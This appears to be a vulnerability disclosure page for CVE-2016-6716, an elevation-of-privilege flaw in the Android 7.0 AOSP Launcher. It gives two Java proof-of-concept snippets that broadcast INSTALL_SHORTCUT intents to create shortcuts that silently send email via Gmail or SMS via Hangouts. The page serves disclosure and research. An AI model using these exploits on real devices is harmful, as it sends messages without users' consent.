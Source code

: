 ### Elevation of privilege vulnerability in AOSP Launcher
#### CVE-2016-6716
Versions Affected: Android 7.0 before 2016-11-01

**Gmail PoC**

```
Intent shortcutIntent = new Intent("com.google.android.gm.action.AUTO_SEND");
shortcutIntent.setClassName("com.google.android.gm", "com.google.android.gm.AutoSendActivity");
shortcutIntent.putExtra("to", "<EMAIL>");
shortcutIntent.putExtra("subject", "Shortcut Test");
shortcutIntent.putExtra("body", "Hello");

Intent intent = new Intent();
intent.putExtra(Intent.EXTRA_SHORTCUT_INTENT, shortcutIntent);
intent.putExtra(Intent.EXTRA_SHORTCUT_NAME, "Send email");
intent.setAction("com.android.launcher.action.INSTALL_SHORTCUT");
sendBroadcast(intent);
```

**Hangouts PoC**

```
Intent shortcutIntent = new Intent();
shortcutIntent.setClassName("com.google.android.talk", "com.google.android.apps.hangouts.phone.ConversationIntentSecureActivity");
shortcutIntent.setAction("android.intent.action.SENDTO");
shortcutIntent.putExtra("android.intent.extra.TEXT", "Hello");
shortcutIntent.putExtra("account_name","<CURRENT_EMAIL_ACCOUNT>");
shortcutIntent.putExtra("participant_name","31337");

Intent intent = new Intent();
intent.putExtra(Intent.EXTRA_SHORTCUT_INTENT, shortcutIntent);
intent.putExtra(Intent.EXTRA_SHORTCUT_NAME, "Send sms");
intent.setAction("com.android.launcher.action.INSTALL_SHORTCUT");
sendBroadcast(intent); 
```

![CVE-2016-6716](https://i.imgur.com/6fCkdTl.png)

https://blog.blackfan.ru/2016/11/android-launcher-vuln.html